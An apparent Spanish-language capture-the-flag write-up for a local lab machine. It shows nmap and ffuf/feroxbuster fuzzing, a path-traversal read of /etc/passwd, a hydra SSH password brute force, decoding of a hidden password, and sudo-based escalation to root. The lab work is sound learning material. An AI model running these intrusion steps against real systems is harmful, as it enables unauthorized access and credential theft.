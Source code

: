 Fecha: 13/08/2024
#LFI #FUZZING 

Empiezo con nmap: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.19.0.2 -oN scan
```

Encuentro ssh en el puerto 22 y http en el 80, ninguno de ellos vulnerable. Mirando la página, solo veo la típica página de apache que indica que el servicio está funcionando, sin ningún comentario especial. Usaré fuzzing para buscar directorios. Aunque otro días usé dirbuster, leyendo comentarios sobre herramientas de este tipo, veo que se habla muy bien de **ffuf** y de **feroxbuster**, diciendo que:
- Dirb y dirbuster están anticuadas. 
- Gobuster no tiene capacidad de recursión. 
Pruebo con `feroxbuster` 

```
feroxbuster -u http://172.19.0.2 -x php -x html -x txt -x js -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o fuzzing --threads 300
```
![](Imágenes/Pasted%20image%2020240813015839.png)

Con ffuf, lo siguiente haría prácticamente lo mismo:
```
ffuf -c -recursion -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.19.0.2/FUZZ  -e .php,.html,.txt,.js -o fuzzing 
``` 

Haciendo `control+u` en http://172.19.0.2/wordpress encuentro el siguiente comentario: 

![](Imágenes/Pasted%20image%2020240813015744.png)

Pruebo añadiendo `/index.php` a la url y veo que no cambia la apariencia, por lo que puede que se pueda hacer path traversal (usar la url para acceder a archivos ocultos). Leyendo tutoriales, encuentro el comando que usar. El resultado será que si pongo de nombre de parámetro `love`, veré el contenido de /etc/passwd

```
ffuf -c  -u http://172.19.0.2/wordpress/index.php?FUZZ=/../../../../../../../etc/passwd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 183
```

-c añade color al output, haciéndolo más legible
-u es la url. FUZZ se sustituirá para buscar el nombre de un parámetro que muestre el contenido de /etc/passwd. 
-w la lista de palabras que se sustituirán por FUZZ en la url
-fw filtra las palabras de 183. Previamente, no puse el parámetro. Viendo el output, la gran mayoría (todas menos una) de las respuestas tenían 183 palabras (que es la cantidad de palabras de la página original), por lo que filtré esas opciones. 

![](Imágenes/Pasted%20image%2020240813024054.png)

Visito `http://172.19.0.2/wordpress/index.php?love=/../../../../../../../etc/passwd `

![](Imágenes/Pasted%20image%2020240813024254.png)

Encuentro dos usuarios, pedro y rosa. Probaré a usar hydra con rockyou.txt con ambos. 

```
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.19.0.2 -t 64
```


![](Imágenes/Pasted%20image%2020240813025040.png)

Encuentro las credenciales de rosa, entro en la máquina y veo que tiene permisos de root para cat y ls. Miro si hay alguna forma de explotarlos para convertirse en root en https://gtfobins.github.iopero no lo encuentro, así que uso ambas herramientas para explorar el sistema de archivos: 

![](Imágenes/Pasted%20image%2020240813025546.png)

Encuentro un archivo, secret.txt, con lo que aparentemente es un código hexadecimal. El output parece un código en base 32, así que lo desencripto también 

```
echo "4E5A5857435933464F4A3247433454424F4E58584732494B" | xxd -r -p | base32 -d

noacertarasosi
```

No puedo hacer su directamente, pero si a pedro:

![](Imágenes/Pasted%20image%2020240813030757.png)

Siendo Pedro, puedo ejecutar como root /usr/bin/env, lo cual uso () para hacerme root:

![](Imágenes/Pasted%20image%2020240813030856.png)
